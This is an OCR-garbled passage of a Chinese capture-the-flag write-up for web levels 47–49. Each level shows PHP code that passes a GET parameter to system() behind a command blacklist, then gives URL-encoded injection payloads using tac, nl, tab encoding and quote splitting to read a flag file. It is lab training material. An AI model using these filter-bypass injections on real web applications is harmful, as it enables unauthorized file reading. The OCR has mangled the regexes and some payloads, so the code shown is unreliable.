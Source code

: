payload

c=tac%09fla.php%0a

nlfla''g.php

c=tacflag.php
web47~多过滤读取函数
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]$morelessheadsorttaili, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
}
多过滤了 more 、less 、 head 、sort 、tail 。

但是 tac 、od 、uniq 等没被过滤

od 读文件 httpswww.cnblogs.comwfwenchaop5188720.html

payload

c=tac%09fla.php%0a

c=nl%09fla.php%0a

c=nlfla''g.php
web48~多过滤函数
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]$morelessheadsorttailsedcutawkstringsodcurl`i, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
}
多过滤了一些读取函数。

payload

c=tac%09fla.php%0a

c=tacfla''g.php%0a
web49~多过滤反引号
php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;catflag [0-9]$morelessheadsorttailsedcutawkstringsodcurl`%i, $c)){
        system($c. devnull 2&1);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤反引号。
